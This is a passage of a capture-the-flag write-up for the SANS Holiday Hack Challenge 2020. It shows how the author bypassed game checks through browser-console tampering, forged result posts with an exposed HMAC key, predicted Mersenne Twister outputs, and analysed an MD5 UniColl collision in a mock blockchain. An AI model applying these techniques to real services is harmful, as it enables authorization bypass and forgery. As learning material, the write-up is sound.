            &nbsp;&nbsp;for (key in j_arr)<br>
            &nbsp;&nbsp;&nbsp;&nbsp;if (j_arr[key] === "lollipop")<br>
              &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;return key<br>
            &nbsp;&nbsp;return null<br>
          }<br>
          function find_lolli(arr) {<br>
            &nbsp;&nbsp;for (i in arr) {<br>
              &nbsp;&nbsp;&nbsp;&nbsp;sol = find_lolli_json(arr[i]);<br>
              &nbsp;&nbsp;&nbsp;&nbsp;if (sol)<br>
              &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;return sol<br>
            &nbsp;&nbsp;}<br>
          }<br>
          var move = [elf.moveRight, elf.moveLeft];<br>
          var lever_sum = 0<br>
          for (var n = 0; n &lt; 6; n++) {<br>
            &nbsp;&nbsp;move[n % 2](2 * n + 1)<br>
            &nbsp;&nbsp;lever_sum += elf.get_lever(n)<br>
            &nbsp;&nbsp;elf.pull_lever(lever_sum)<br>
            &nbsp;&nbsp;elf.moveUp(2)<br>
          }<br>
          elf.tell_munch(find_lolli)<br>
          elf.moveRight(11)
        </code>
      </td>
      <td>
        40 lines code, <br>10 elf cmds
      </td>
      <td>
        <b>For Loop Finale (Bonus)</b> <br>
        
      </td>
      <td>
        <p>
          Lever #n requires the sum of its own and all previous lever values.
        </p>
        <p>
          Munchkin #0 requires a function which takes an array of 
          JSON objects, finds the object containing a key with 
          value "lollipop" and returns that key. Again, using the
          approach from question 6 would have been more elegant. 
        </p>
        <p>
          The loop construction for walking back and forth is very similar 
          to that from the previous question.
        </p>
      </td>
    </tr>
  </table>

  <p></p>
  <div class="hangright">
    
  </div>
  <p>
    Solving the bonus levels gave a nice achievement on top of Ribb's
    undying admiration. What more could one want? Well, there is this 
    nagging desire to cheat anyway, even if this game is far too nice
    for cheating. 
  </p>
  <p>
    The first level of the game has an URL like
  </p>
  <pre>https://elfcode.kringlecastle.com/level1/?<mark>resourceId</mark>=94d0a6e9-9a43-4df2-a61e-6f0a9a0c564d</pre>
  <p>
    containing a resourceId parameter, which is presumably used to link the 
    game results to the player. The game mechanics is handled in a javascript 
    file called <a href="src/t_10/level1_index.js">index.js</a>, which is 
    adapted specifically for each level. For our purposes, the function 
    win_or_lose() is of interest:
  </p>
  <pre class="prettyprint lang-javascript">
win_or_lose() {
  if (!this.dead && this.game_grid[ this.cur_xy.y ][ this.cur_xy.x ] === 4) {
      if (this.lollipop_coords.length) {
          ctx.drawImage( this.fail, 0, 0);
          canvas.onclick = function() {
              canvas.onclick = null;
              EnableDisableBtn();
              _elphgame = new Game();
          }
      } else {
          ctx.drawImage( this.win, 0, 0);
          this.draw_numof_funcs_used()
          canvas.onclick = function() {
              eval(atob("<mark>d2luZG93Lmx ... ZXNvdXJjZUlk</mark>"))
          }   
      }
      return true;
  } else if (this.alpha &lt; 0) {
      ctx.drawImage( this.lose, 0, 0);
      canvas.onclick = function() {
          canvas.onclick = null;
          EnableDisableBtn();
          _elphgame = new Game();
      }
      return true;
  }
  return false;
}</pre>
  <p>
    A base64 encoded command is evaluated, obviously to hide something, 
    and decoding it reveals the URL of the next level:
  </p>
  <pre>window.location.href = '/level2_8465456214260765/?resourceId=' + resourceId</pre>
  <p>
    Calling this URL with the same resourceID parameter as for level 1 
    fast forwards to level 2. During a "normal" completion of the level no additional message 
    exchange was detected, so this seems to be enough to convince the server 
    that level 1 was properly solved. Rinse and repeat until 
    <a href="src/t_10/level6_index.js">level 6</a>. Here, 
    an additional encoded line appears above the level transition, which decodes to:
  </p>
  <pre>
__POST_RESULTS__({hash: CryptoJS.enc.Hex.stringify(CryptoJS.HmacSHA256(resourceId + ":YouWonTheGame", 
                  "cd2bf9ed19bebeb7f6110d27eb733386")),resourceId: resourceId, action: "YouWonTheGame"})</pre>
  <p>
    and posts the solution of the game to the server. I was unable to verify 
    this because I had solved the game already, but spoofing this POST should 
    complete the challenge. 
  </p>


  <h2 id="o10">Objective 10: Defeat Fingerprint Sensor</h2>
  <div class="objective">
    Difficulty: 3<br>
    Bypass the Santavator fingerprint sensor. Enter Santa's office without 
    Santa's fingerprint.
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Ribb Bonbowford:</div>
    Wow - are you a JavaScript developer? Great work!
    Hey, you know, you might use your JavaScript and HTTP manipulation skills 
    to take a crack at bypassing the Santavator's S4.
    <div class="name">Sparkle Redberry:</div>
    To get to different 
    floors, you'll need to power the various colored receivers. ... There MAY 
    be a way to bypass the S4 stream.
  </div>
  
  <h3>I) Santavator mechanism</h3>
  <p>
    Time to take a closer look at the inner workings of the Santavator. 
    When opening the terminal inside the elevator, an application 
    <a href="https://elevator.kringlecastle.com">https://elevator.kringlecastle.com</a>
    is opened in an iframe and fed various bits of gamestate information via the request URL. 
    Several scripts are loaded, including: 
    <ul>
      <li>
        the physics engine <a href="https://github.com/shakiba/planck.js/blob/master/README.md">planck.js</a> 
        used by the game to model the S4 particle stream,
      </li>
      <li>
        the game script <a href="src/o_10/app_comments.js">app.js</a> (version with with extra comments),
      </li>
      <li>
        a helper script <a href="src/o_10/conduit.js">conduit.js</a>
        dealing with client-server communication.
      </li>
    </ul>
    Each particle in the S4 stream is modelled individually, interacting with the different 
    obstacles until going off-screen, being captured by a trap or expiring of old age (timeout). 
    The game mechanics takes place entirely on the client side, which opens the door to abuse ...  
  </p>
  <p>
    The communication between client and server employs both HTTP and web sockets. Entering 
    new areas including the elevator is communicated via web socket. The elevator panel then
    triggers a GET request starting the game which carries all the relevant elevator tokens.
    This GET request also carries a resource ID which was previously provided via websocket, 
    probably to insure that the tokens are not meddled with. 
  </p>
  <p>
    Within app.js, an animation callback <code>function render(newtime)</code> handles the 
    generation and tracking of each light particle, including the interaction with 
    coloured bulbs, obstacles, portals and traps. When correctly coloured particles enter 
    the capture area of a trap, they slowly fill the trap (more about this later). Buttons 
    gain the <b>powered</b> attribute once the traps of the required colours are sufficiently 
    filled. Each of the elevator buttons has an associated event listener which sends sends 
    of a POST request if it is clicked while powered, except button 4 which requires a bit more.
    This POST request returns a HMAC if the server deems it legitimate, and finally the 
    client sends a "COMPLETE_CHALLENGE" web socket message requesting floor change, including 
    this HMAC for legitimisation.
  </p>

  <h3>II) Beating the fingerprint sensor</h3>
  <p>
    Button 4 (lvl 3, Santas office) is a bit special: if clicked while powered, it opens the 
    cover of the fingerprint sensor, which triggers a floor change process if the 
    <b>besanta</b> token is present. This token is set at application start if the elevator 
    is entered while possessing Santa (santamode).
  </p>
  <pre class="prettyprint lang-js">
const handleBtn4 = () => {
  const cover = document.querySelector('.print-cover');
  cover.classList.add('open');

  cover.addEventListener('click', () => {
    if (btn4.classList.contains('<mark>powered</mark>') && <mark>hasToken('besanta')</mark>) {
      $.ajax({                      // jQuery function
        type: 'POST',
        url: POST_URL,
        dataType: 'json',
        contentType: 'application/json',
        data: JSON.stringify({ 
          targetFloor: '3',
          id: getParams.id,
        }),
        success: (res, status) => { // Callback executed upon success
          if (res.hash) {
            __POST_RESULTS__({      // This is defined in conduit.js
              resourceId: getParams.id || '1111',
              hash: res.hash,
              action: 'goToFloor-3',
            });
          }
        }
      });
    } else {
      __SEND_MSG__({
        type: 'sfx',
        filename: 'error.mp3',
      });
    }
  });
}; </pre>
  <p>
    To bypass this security mechanism while not being Santa, one could try to 
    intercept and play with the HTTP or web socket messages, taking care to  
    include the correct IDs and hashes. This is quite cumbersome. A much
    simpler approach is to add the <b>besanta</b> token 
    from the browser console while the app is running. To do this:
    <ol>
      <li>
        Enter the elevator while not being Santa, and open the elevator panel, starting the 
        elevator app.
      </li>
      <li>
        Invoke a JavaScript debugger, for example from Firefox developer tools.
      </li>
      <li>
        Place a breakpoint anywhere within the animation callback <code>function render(newtime)</code>,
        for example at the line <code>requestAnimationFrame(render);</code>
      </li>
      <li>
        Execute the command <code>tokens.push("besanta")</code> from the web console
      </li>
      <li>
        Remove the breakpoint and continue the interrupted process.
      </li>
      <li>
        Pressing the 3rd floor button and the fingerprint sensor now sends you to Santas 
        office, provided the button is powered correctly.
      </li>
    </ol>
    This solves the objective.
  </p>

  <h3>III) Bypassing the S4 stream</h3>
  <p>
    Ribb and Sparkle both mentioned that the Santavator S4 bus can probably be bypassed 
    altogether. While the game is fun to solve normally, cheating is a great temptation,
    even at the price of amassing naughty points. Well, we could always do a Jack Frost 
    to handle that .... but I digress. The key elements controlling the button behaviour 
    are the <b>three coloured traps</b>. In the main animation loop, each particle is checked 
    whether it strayed within the capture area of a trap. If it is of the correct colour, 
    the current timestamp is added to the <code>PARTICLE_COUNTS</code> array associated 
    with this trap
  </p>
  <pre class="prettyprint lang-js">
TRAPS.forEach((points, trapIndex) => {
  if (vecInRect(planck.Vec2(x, y), points[0].x, points[0].y, points[2].x, points[2].y)) {
    if (body.color === trapIndex) PARTICLE_COUNTS[trapIndex].push(window.performance.now());
    world.destroyBody(body);
  }
}); </pre>
  <p>
    This array is pruned regularly to filter out timestamps older than 3 seconds:
  </p>
  <pre class="prettyprint lang-js">
const pruneCounts = () => {
  PARTICLE_COUNTS.forEach((count, countIndex) => {
    PARTICLE_COUNTS[countIndex] = count.filter(item => {
      return window.performance.now() - item &lt; 3000
      });
  });
}; </pre>
  <p>
    When the traps are rendered, the <code>PARTICLE_COUNT</code> of each trap is compared
    to the <code>trapTargetCounts</code>. The fill level is shown by lighting wire-elements, 
    and when the trap is full, its associated LED is lit and the appropriate buttons are
    powered.
  </p>
  <pre class="prettyprint lang-js">
const renderTraps = () => {
  TRAPS.forEach((points, index) => {
    const fillLevel = pl.Math.clamp(PARTICLE_COUNTS[index].length / trapTargetCounts[index], 0, 1);
    const steppa = Math.floor(fillLevel / (1 / wireSteps[index]));
    wireElements[index].style.backgroundPosition = `0 ${ -wireElements[index].clientHeight * steppa }px`;
    ledElements[index].classList[fillLevel === 1 ? 'add' : 'remove']('on');
    powered[index] = fillLevel === 1;
  });
  
  btn1.classList[powered[2] ? 'add' : 'remove']('powered');
  btn3.classList[powered[2] ? 'add' : 'remove']('powered');
  btn2.classList[powered[2] && powered[0] && hasToken('workshop-button') ? 'add' : 'remove']('powered');
  btnr.classList[powered[2] && powered[0] ? 'add' : 'remove']('powered');
  btn4.classList[powered[2] && powered[1] && powered[0] ? 'add' : 'remove']('powered');
}; </pre>
  <p>
    In order to bypass the S4 stream, all we need to do is persuade all traps that they 
    are full, by filling all <code>PARTICLE_COUNTS</code> arrays with timestamps from
    the future (60 seconds should be enough). The procedure is similar to part II): 
    Start the app by opening the elevator panel, use a debugger to interrupt the app 
    inside the animation loop, and use the web console to inject the 3 lines
  </p>
  <pre class="prettyprint lang-javascript">
PARTICLE_COUNTS[0] = new Array(20).fill(window.performance.now() + 1000*60);
PARTICLE_COUNTS[1] = new Array(30).fill(window.performance.now() + 1000*60);
PARTICLE_COUNTS[2] = new Array(10).fill(window.performance.now() + 1000*60); </pre>
  <p>
    All buttons should now be lit and the elevator fully functional.
  </p>


  <h2 id="t11">Terminal 11: Snowball Game</h2>

  <div class="terminal">
    
    
  </div>
  <div class="quote">
    <div class="name">Tangle Coalbox:</div>
    Howdy gumshoe. I'm Tangle Coalbox, resident sleuth in the North Pole. 
    If you're up for a challenge, I'd ask you to look at this here Snowball 
    Game. We tested an earlier version this summer, but that one had web 
    socket vulnerabilities. This version seems simple enough on the Easy 
    level, but the Impossible level is, well... I'd call it impossible, 
    but I just saw someone beat it! I'm sure something's off here. Could 
    it be that the name a player provides has some connection to how the 
    forts are laid out? Knowing that, I can see how an elf might feed their 
    Hard name into an Easy game to cheat a bit. But on Impossible, the best 
    you get are rejected player names in the page comments. Can you use those 
    somehow? Check out Tom Liston's talk for more info, if you need it.
    <div class="name">as Santa:</div>
    Howdy Boss. You look a tad flushed. Can I get you some water from the 
    vending machine? I'm still looking into the Snowball Game like you asked. 
    I read the write-up of the test completed earlier this summer with the 
    web socket vulnerabilities. I was able to complete the Easy level, but 
    the Impossible level is, umm... I'd call it impossible, but I just saw 
    someone beat it! Is it possible that the name a player provides influences 
    how the forts are laid out? Oh, oh, maybe if I feed a Hard name into 
    an Easy game I can manipulate it! UGH! on Impossible, the best I get 
    are rejected player names in the page comments... maybe that's useful? 
    I'll have to re-watch Tom Liston's talk again. Thanks for all the tips 
    and encouragement Santa!
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Talk by Tom Liston about 
      <a href="https://www.youtube.com/watch?v=Jo5Nlbqd-Vg">Mersenne Twisters</a> 
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Python module for pseudo random number generation: 
      <a href="https://docs.python.org/3/library/random.html">random</a> 
    </div>
  </div>
  <div class="hint">
    &xrarr;  
    <div>
      <a href="https://github.com/kmyk/mersenne-twister-predictor/blob/master/readme.md">Predictor</a> 
      by kmyk for random numbers generated with a Mersenne Twister algorithm        
    </div>
  </div>
  <div class="hint">
    &xrarr;  
    <div>
      Stand-alone instance of the  
      <a href="https://snowball2.kringlecastle.com">Snowball Game</a>
    </div>
  </div>

  <p>
    The game is quite similar to <a href="https://en.wikipedia.org/wiki/Battleship_(game)">battleship</a>,
    a classic pen-and-paper game which was great fun during boring lessons in school. Both sides have
    a snow fort on a 10x10 grid, which consists of 5 wall elements of sizes 5, 4, 3, 3, 2 and is 
    supposedly invisible to the opponent. Alternate snowball throws are traded, and if a wall is hit,
    a red splash appears. Whoever destroys the enemy fort first, wins. At easy level, the computer enemy 
    throws entirely randomly and is easy to beat. At hard, roughly half of the enemy throws are hits,
    making the game (yes) hard to beat, and on impossible, every enemy throw scores a hit. It is pretty 
    evident that the so-called AI cheats, so let's return the favour and kick its behind.
  </p>
  <p>
    The <a href="src/t_11/battlefort.js">javascript game code</a> relies heavily on web sockets 
    communication to convey game information and deals only with the rendering of the game, 
    while state and logic are handled by server side code. A protocol of the web socket messages 
    exchanged confirms that the only board layout appearing is that of the player being sent 
    to the server. Incidentally, in standalone mode the game sets the player ID to "HughRansomDrysdale",
    the evil grandson in "Knives out". Good film that! Anyway, no easy pickings here. 
  </p>
  <p>
    In his speech, Tangle Coalbox offers the conjecture that the player name somehow encodes the 
    fort layout. This is easily confirmed: starting two instances of the game with the same numeric
    player name produces the same player fort layout, and playing along a bit shows that the enemy 
    forts are also identical. This makes it easy to beat the game on hard: 
    <ol>
      <li>
        Start the game from Kringlecon (in an iframe) on hard. The player name cannot be chosen on hard, 
        the game picks it for you. However, the name does get shown on the player game board (the green 
        background field)
      </li>
      <li>
        Open a second instance of the game (<a href="https://snowball2.kringlecastle.com">https://snowball2.kringlecastle.com</a>),
        set level to easy and fill in the player name from step 1.
      </li>
      <li>
        Beat the game on easy, and take a screenshot of the enemy fort layout before the victory screen wipes it.
      </li>
      <li>
        Use that to beat the original game on hard. The AI will never know what hit it!
      </li>
    </ol>
  </p>
  <p>
    This felt good, but unfortunately does not help with impossible, because the player name is 
    redacted there. However, the <a href="src/t_11/game_impossible.html.txt">HTML source</a> shows 
    a peculiarity: a comment with a long list full of player names rejected because they were "not 
    random enough":
  </p>
  <pre>
&lt;!--
  Seeds attempted:
  
  3090549483 - Not random enough
  128121106 - Not random enough
  781881482 - Not random enough
  1368729342 - Not random enough
  3998736224 - Not random enough
      ... <mark>624 rejects</mark> ...
  3322170598 - Not random enough
  48239589 - Not random enough
  3425887652 - Not random enough
  <span>&lt;Redacted!&gt; - Perfect!</span>
--&gt;</pre>
  <p>
    So, it appears that the player name is generated randomly as 32 bit integer, and that the fort
    layouts are derived from this number. This can be exploited provided the random player name is 
    generated using a <b>MT19937 Mersenne Twistor</b> based PRNG (pseudo random number generator),
    very common in most non-cryptographic implementations. MT19937 produces statistically very 
    well distributed pseudo random numbers, but suffers from the weakness that it is completely 
    predictable after 624 consecutive calls, regardless of the original seed. This makes it 
    completely unsuitable for cryptographic applications such as salts and nonces (see below).  
  </p>
  <p>
    The python code below (<a href="src/t_11/mersenne.py">mersenne.py</a>) uses the MT19937 
    predictor module by Kimiyuki Onaka (kmyk) available from his 
    <a href="https://github.com/kmyk/mersenne-twister-predictor/blob/master/readme.md">github page</a>.
    It reads a list of 624 rejected user values copied straight from the snowball game 
    source code comment, and computes the next random 32-bit integer, which should be the 
    equal to the redacted "perfect" user name from the list.
  </p>
  <pre class="prettyprint lang-python">
from mt19937predictor import MT19937Predictor

predictor = MT19937Predictor()
with open("seeds.txt", "r") as fh:
    seeds_raw = fh.readlines()
seeds = [int(s.split()[0]) for s in seeds_raw]

print("Number of seeds:", len(seeds))
for s in seeds:
    predictor.setrand_int32(s)
print("Next seed:", predictor.genrand_int32()) </pre>
  <p>
    So, the exploit goes as follows:
    <ol>
      <li>
        Start the game from Kringlecon (in an iframe) on impossible. It is important <b>not</b> 
        to use an independent instance here, so that the game result is successfully 
        communicated to Kringlecon. 
      </li>
      <li>
        Extract the 624 rejected user names from the source code and copy them into a file 
        <a href="src/t_11/seeds.txt">seeds.txt</a>. NOTE: just opening the source code directly form
        the iframe fails horrible, at least for firefox, because the browser requests a fresh source from the 
        server, causing new random numbers to be generated. This cost me a lot of time to realize. Instead,
        the comment with the user names should be pulled from an inspection tool, using e.g. firefox
        developer tools.
      </li>
      <li>
        Run the predictor code (<a href="src/t_11/mersenne.py">mersenne.py</a>) on seeds.txt to 
        generate the user name used by the game
      </li>
      <li>
        Start an easy game on a standalone instance and set the user name to the predictor output.
        Check that all is well by comparing the player fort layout.
      </li>
      <li>
        Kick ass :-). The AI never misses on this level, so the player can only win if every throw 
        hits a target.
      </li>
    </ol>
    Upon completion, an impressed Tangle Coalbox offers a series of hints for objective 11.
  </p>

  <h2 id="o11">Objective 11: Naughty/Nice List with Blockchain Investigation</h2>
  <div class="objective">
    Difficulty: 5<br>
    Even though the chunk of the blockchain that you have ends with 
    block 129996, can you predict the nonce for block 130000? Talk 
    to Tangle Coalbox in the Speaker UNpreparedness Room for tips 
    on prediction and Tinsel Upatree for more tips and 
    <a href="https://download.holidayhackchallenge.com/2020/OfficialNaughtyNiceBlockchainEducationPack.zip">tools</a>. 
    (Enter just the 16-character hex hash)
  </div>
  <br>
  <div class="objective">
    Difficulty: 5<br>
    The SHA256 of Jack's altered block is: 58a3b9335a6ceb0234c12d35a0564c4e 
    f0e90152d0eb2ce2082383b38028a90f. If you're clever, you can recreate the 
    original version of that block by changing the values of only 4 bytes. 
    Once you've recreated the original block, what is the SHA256 of that block?
  </div>

  <h3>I) Hints and resources</h3>
  <div class="quote">
    <div class="name">Tinsel Upatree:</div>
    Howdy Santa! Just guarding the Naughty/Nice list on your desk. 
    Santa, I don't know if you've heard, but something is very, 
    very wrong... We tabulated the latest score of the Naughty/Nice 
    Blockchain. Jack Frost is the nicest being in the world! Jack 
    Frost!?! As you know, we only really start checking the 
    Naughty/Nice totals as we get closer to the holidays. Out of 
    nowhere, Jack Frost has this crazy score... positive 4,294,935,958 
    nice points! No one has EVER gotten a score that high! No one 
    knows how it happened. Most of us recall Jack having a NEGATIVE 
    score only a few days ago... Worse still, his huge positive score 
    seems to have happened way back in March. Our first thought was 
    that he somehow changed the blockchain - but, as you know, that 
    isn't possible. We ran a validation of the blockchain and it all 
    checks out. Even the smallest change to any block should make it 
    invalid. Blockchains are huge, so we cut a one minute chunk from 
    when Jack's big score registered back in March. You can get a 
    slice of the Naughty/Nice blockchain on your desk. You can get 
    some tools to help you here. Tangle Coalbox, in the Speaker 
    UNPreparedness room. has been talking with attendees about the issue.
  </div>  
  <div class="hint">
    &xrarr; 
    <div>
      Small portion of the
      <a href="https://download.holidayhackchallenge.com/2020/blockchain.dat">Naughty/Nice Blockchain</a> 
      including Jack Frosts suspicious block.
    </div>
  </div>

  <div class="hint">
    &xrarr;
    <div>
      <a href="https://download.holidayhackchallenge.com/2020/OfficialNaughtyNiceBlockchainEducationPack.zip">
        Official Naughty Nice Blockchain Education Pack
      </a>containing commented python code for blockchain manipulation and required keys.
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      <a href="src/o_11/naughty_nice.py">naughty_nice.py</a> within the education pack has an extensive docstring
      explaining how the naughty/nice blockchain functions.  
    </div>
  </div>
  <p>Additional hints after solving the Snowball Game challenge:</p>
  <div class="quote">
    <div class="name">Tangle Coalbox:</div>
    Great work identifying and abusing the pseudo-random sequence. Now, the REAL question is, how else can 
    this be abused? Do you think someone could try and cheat the Naughty/Nice Blockchain with this? If you 
    have control over to bytes in a file, it's easy to create MD5 hash collisions. Problem is: there's 
    that nonce that he would have to know ahead of time. A blockchain works by "chaining" blocks together 
    - so there's no way that Jack could change it without it messing up the chain... Maybe if you look 
    at the block that seems like it got changed, it might help. If Jack was able to change the block AND 
    the document without changing the hash... that would require a very UNIque hash COLLision. Apparently 
    Jack was able to change just 4 bytes in the block to completely change everything about it. It's like 
    some sort of evil game to him. That's about all the help I can give you, kid, but Prof. Petabyte may 
    have more.
  </div>
  <div class="hint">
    &xrarr;
    <div>
      <a href="https://www.youtube.com/watch?v=7rLMl88p-ec">Qwerty Petabyte</a> is giving a talk about blockchain 
      tomfoolery!  
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Shinny Upatree swears that he doesn't remember writing the contents 
      of the document found in the block that seems like it got changed. Maybe looking closely at the 
      documents, you might find something interesting.  
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Excellent background on MD5 Hash Collisions: 
      <a href="https://speakerdeck.com/ange/colltris">Extensive slidedeck</a> on different types of MD5 hash collision,
      and a <a href="https://www.youtube.com/watch?v=JXazRQ0APpI">Youtube talk</a> by the same author.  
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Examples and code:
      <a href="https://github.com/corkami/collisions">Hash collisions and exploitations.</a>
      <a href="https://github.com/cr-marcstevens/hashclash">Project HashClash.</a>
    </div>
  </div>

  

  <h3>II) Vulnerability of the naughty/nice blockchain</h3>
  <p>
    The Naughty/Nice blockchain, the mother of them all according to elf lore, was conceived decades ago 
    by Santoshi Santamoto to collect all the reports on naughtiness and niceness throughout the year. The idea
    was <s>to set up a totalitarian regime</s> to simplify christmas decision making.
    Rumours are afoot that our hero, Jack Frost, has managed to 
    hack this blockchain, giving himself the highest niceness score ever, which is of course impossible. 
  </p>
  <div class="hangright">
    
  </div>
  <p>
    The structure of each block of the blockchain is explained in the blockchain code supplied
    as part of the toolbox, <a href="src/o_11/naughty_nice.py">naughty_nice.py</a>. It starts with the index of the block within 
    the chain, and a randomly selected nonce, both provided by the elfu block submission portal (orange). This 
    is followed by elf supplied content (green): the person id (<b>pid</b>) of who the block is about, the reporter 
    id (<b>rid</b>) of the reporting elf, the naughty/nice <b>score</b> and, critically, a <b>sign</b> 
    (0 or 1) indicating whether the score reports naughtyness or niceness. It also includes one or more 
    supporting <b>documents</b> which can be a variety of file formats including binary, but are usually 
    pdf. Behind the elf supplied data, the portal adds date and time, followed by the MD5 hash 
    of the previous block in the chain. 
  </p>
  <p>
    As next step, the portal MD5 hashes all block data up to this point. This hash is included in the 
    block and also sent off to the super-secure OS3 (Official Santa Signature System) certification 
    authority, who signs it with their private key and returns the signature. OS3 can be assumed 
    non-hackable, even Santa himself cannot access it on his own. However, OS3 only sees the hash and
    nothing else about the block. This signature is the final element of the block.
  </p>
  <p>
    The reason why MD5 hashes are considered completely insecure for cryptographic purposes is that 
    hash collisions can be crafted which permit the creation of pairs of documents having the same 
    hash but differing in a number of bytes. By using these differences wisely, the two documents can 
    be made to show completely different content. It should be noted that currently it is impossible 
    to design a second document to have the same hash as a given target document. Instead, colliding 
    documents have to be crafted in pairs (or larger groups).
  </p>
  <p>
    A number of techniques are available to craft colliding documents with a common prefix (when the
    start of the documents is the same), which include FastColl, UniColl and Shattered. These techniques 
    have in common that they produce almost identical documents differing only in a limited number of 
    isolated bytes in fixed positions. They also introduce randomness into certain parts of the documents, 
    which depends on the prefix and has to be hidden away by the document structure in some way. 
  </p>
  <p>
    MD5 works by processing 64 byte chunks of data at a time, feeding the hash of the previous chunk 
    into the next. As a consequence, if two documents have a hash collision within the first n chunks
    and are identical thereafter, then the hashes of the complete documents must also be the same. 
    Thanks to this property, if collision is achieved within the elf supplied parts of two blockchain 
    blocks, then the "internal" hash of those blocks will be the same, and hence their OS3 signatures 
    will be identical. 
  </p>
  <p>
    The only problem is the nonce. It is introduced at the beginning of a block and is therefore part 
    of the common prefix, which has to be known when the colliding blocks are created. However, the 
    nonce is selected randomly when the data for a new block is submitted to the elfu portal. In order 
    to build colliding blocks, this nonce somehow has to be predicted in advance.
  </p>

  <h3>III) Predicting the nonce</h3>
  <p>
    According to its description, the code provided in <a href="src/o_11/naughty_nice.py">naughty_nice.py</a>
    is part of the current naughty/nice blockchain codebase. The constructor of the <code>Block</code>  
    class shows that the python 3 <code>random</code> module is used to create the nonce, which employs
    <b>Mersenne Twisters</b>: 
  </p>
  <pre class="prettyprint lang-python">
self.nonce = random.randrange(<mark>0xFFFFFFFFFFFFFFFF</mark>)</pre>
  <p>
    The approach for predicting pseudo-random numbers from the <a href="#t11">Snowball game</a> terminal
    challenge can be reused, but needs to be adapted to <b>64-bit</b> random numbers. A look at the source of 
    <a href="https://github.com/kmyk/mersenne-twister-predictor/blob/master/mt19937predictor.py">mt19937predictor.py</a>
    shows that there is a member function pair <code>getrandbits(bits)</code> and 
    <code>setrandbits(y, bits)</code> which handles integers greater than 32 bit by 
    cutting them up into 32 bit pieces. Each of those pieces represents a separate call to 
    the more basic <code>genrand_int32()</code> and <code>setrand_int32(y)</code>, respectively.
    As a consequence, 312 64-bit nonces are enough to get the MT19937 Mersenne predictor started.   
    The <a href="src/o_11/nonce_predictor.py">nonce_predictor.py</a> script below walks through 
    the blockchain, uses the first 312 nonces to seed the predictor and then verifies that predicted 
    and actual nonces are equal for the rest of the blockchain. 
  </p>
  <pre class="prettyprint lang-python">
from SANS.y2020.obj11_naughty_nice.naughty_nice import *
from mt19937predictor import MT19937Predictor

c2 = Chain(load=True, filename='blockchain.dat')

predictor = MT19937Predictor()
for i in range(len(c2.blocks)):
    nonce = c2.blocks[i].nonce
    if i &lt; 312:
        # seeding
        predictor.setrandbits(nonce, 64)
    else:
        # verification
        predicted_nonce = predictor.getrandbits(64)
        if nonce != predicted_nonce:
            print(c2.blocks[i].index, hex(nonce), hex(predicted_nonce))

# prediction of future nonces
for future_index in range(1,5):
    print(c2.blocks[-1].index + future_index, hex(predictor.getrandbits(64)))</pre>
  <p>
    At the end, 4 future nonces are predicted, solving objective 11a.
  </p>
  <pre>
129997 0xb744baba65ed6fce
129998 0x1866abd00f13aed
129999 0x844f6b07bd9403e4
130000 0x<mark>57066318f32f729d</mark></pre>

  <h3>IV) Undoing the modification</h3>
  <div class="hangright">
    
  </div>
  <p>
    To find out what happened, we first need to pick out the suspicious block by looking 
    for a specific SHA256 hash. The short script 
    <a href="src/o_11/blockchain_investigation.py">blockchain_investigation.py</a> does just that:
  </p>
  <pre class="prettyprint lang-python">
from naughty_nice import *

with open('official_public.pem', 'rb') as fh:
    official_public_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')

# Find Jack's altered block
sha256 = "<mark>58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f</mark>"
starting_index = c2.blocks[0].index
for block in c2.blocks:
    hash_obj = SHA256.new()
    hash_obj.update(block.block_data_signed())
    if hash_obj.hexdigest() == sha256:
        chain_index = block.index - starting_index
        print(f"Jacks altered block: position {chain_index} in chain")
        print(block)
        c2.save_a_block(chain_index, "Jacks_block")
        for n in range(block.doc_count):
            block.dump_doc(n+1)</pre>
  <p>
    The data structure of Jack's block is outlined in the section II) diagram. Apart from an absolutely unearthly 
    niceness score, it contains two documents, a random-looking binary <a href="src/o_11/129459.bin">129459.bin</a>
    and a pdf file <a href="src/o_11/129459.pdf">129459.pdf</a>. This pdf appears to be mildly corrupt: Acrobat Reader rejects
    it disdainfully, but the browser internal pdf viewer is more lenient. An ode to the many virtues of Saint Jack,
    signed by no other than Shinny Upatree! No wonder the poor elf is besides himself. How is this possible?
  </p>
  <div class="hangright">
    
  </div>
  <p>
    To find out, let's take a closer look at <a href="src/o_11/Jacks_block">Jacks_block</a> in a hex editor. Its binary 
    structure can be associated by comparing with the <code>block_data()</code> member of <code>Block</code> in
    <a href="src/o_11/naughty_nice.py">naughty_nice.py</a>. At the very least, Jack must have changed the naughty/nice 
    sign at 0x49 and performed some magic with the PDF document beginning at 0xCA. Byte 0x49 is surrounded with non-random 
    characters up to 0x54, where the random looking binary content 129459.bin starts. The area of randomness conveniently 
    stops exactly at a 64 byte chunk boundary, at 0xBF. This is characteristic of the UniColl method of creating collisions, 
    which is confirmed by the hint dropped by Tangle Coalbox in his speech. 
  </p>
  
  <p>
    Presented with an arbitrary prefix ending at a 64 byte chunk boundary and chosen values for the first 4*n bytes of the colliding 
    chunks, UniColl creates 128 bytes (2 chunks) of collision data for each of the documents. These are uncontrollably 
    random after the first 4*n bytes, and differ only in the positions 0x09 and 0x49 by +1 and -1 respectively. A value of n=5 was used here; 
    larger values of n quickly lead to high computation times and possibly failures. This method matches perfectly with 
    Jack's block, where the naughty/nice sign is located exactly 10 bytes behind a chunk boundary and where the randomness 
    created is hidden away in dedicated binary content. The perfect crime! This would account for 2 of the 4 required byte changes. 
    To test the theory, let's change bytes 0x49 and 0x89 in a python console:
  </p>
  <pre class="prettyprint lang-python">
>>> from naughty_nice.py import *
>>> jack = bytearray(open("Jacks_block", "rb").read())
>>> hash_before = MD5.new()
>>> hash_before.update(jack)
>>> hash_before.hexdigest()
'b10b4a6bd373b61f32f4fd3a0cdfbf84'
>>> jack[0x49] -= 1
>>> jack[0x89] += 1
>>> hash_after = MD5.new()
>>> hash_after.update(jack)
>>> hash_after.hexdigest()
'b10b4a6bd373b61f32f4fd3a0cdfbf84'</pre>
  <p>
